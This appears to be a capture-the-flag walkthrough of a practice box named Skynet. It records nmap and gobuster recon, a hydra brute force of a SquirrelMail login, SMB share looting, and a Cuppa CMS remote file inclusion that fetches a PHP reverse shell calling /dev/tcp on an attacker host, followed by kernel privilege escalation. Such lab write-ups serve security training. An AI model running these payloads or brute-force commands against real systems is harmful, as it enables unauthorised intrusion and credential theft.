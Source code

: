 export ip=10.10.235.41

# recon and # scanning

## tool - nmap
- `nmap -sV -sC -oN nmap.log $ip`
  - 22 ssh, 80 http, 110 pop3, 139 netbios, 143 imap, 445 netbios smbd 4.3.11-Ubuntu
- `sudo nmap -O $ip`
  - NA

## tool - gobuster
- `gobuster dir -t 100 -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-small.txt -x php,txt,html -u http://$ip | tee gobuster.log`
  - Found many directories which are returning 403 errors except for a squirrel mail dir. Accessed this url and found installation of a [vulnerable version of squirrelmail](https://www.exploit-db.com/exploits/27948)
  - 
## tool - enum4linux
- `enum4linux -a $ip | tee enum4linux.log`
  - got a username: milesdyson

## tool - hydra
- Considering we got a username and a webmail installation, the obvious next step is trying to use hydra on this.
  - `hydra -l milesdyson -P smb/logs/log1.txt $ip http-post-form "/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^:incorrect."`


# Process
- Considering we have many samba shares with anonymous access, we can try accessing those.
  - `smbclient //10.10.235.41/anonymous`
  - There are many files, so let's download all those
  - `smbget -R smb://10.10.235.41/anonymous`
  - In one of the downloaded files, we can see many password like strings, so we can use that with hydra to get into squirrelmail.
  - And this gets us the password for milesdyson
  - After logging into the email, we can see one of the email is having skynets smb password
  - with this password we can login to the smb share of miles dyson
    - `smbclient //10.10.235.41/milesdyson --user=milesdyson --workgroup=skynet`
  - under this share, you can see a notes dir which has another file. This file mentions the url of a CMD they are adding features to. 
  - running gobuster on that url returns an administrator url
    - `gobuster dir -t 100 -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-small.txt -x php,txt,html -u http://10.10.235.41/45kra24zxs28v3yd/ | tee gobuster-cms.log`
  - this administrator is running a CMS called cuppa, so searching for any available exploits, https://www.exploit-db.com/exploits/25971
  - As it is mentioned in the exploit, we can access the config file which has the username and password for cuppa.
  - Also this exploit lets us do remote file inclusion which in turn can give us a reverse shell
    - adding `<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/<attacker ip>/1234 0>&1'"); ?>` in a php file and starting a webserver using python to serve this file.
    - then access the url `$ip/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.18.25.169/rs.php?` to get the reverse shell
    - going to the home dir of milesdyson we get the first flag
  - downloaded linpeas.sh from local webserver using wget, and found the system is vulnerable to this [exploit](https://www.exploit-db.com/exploits/45010)
  - exploited successfully to get the root shell
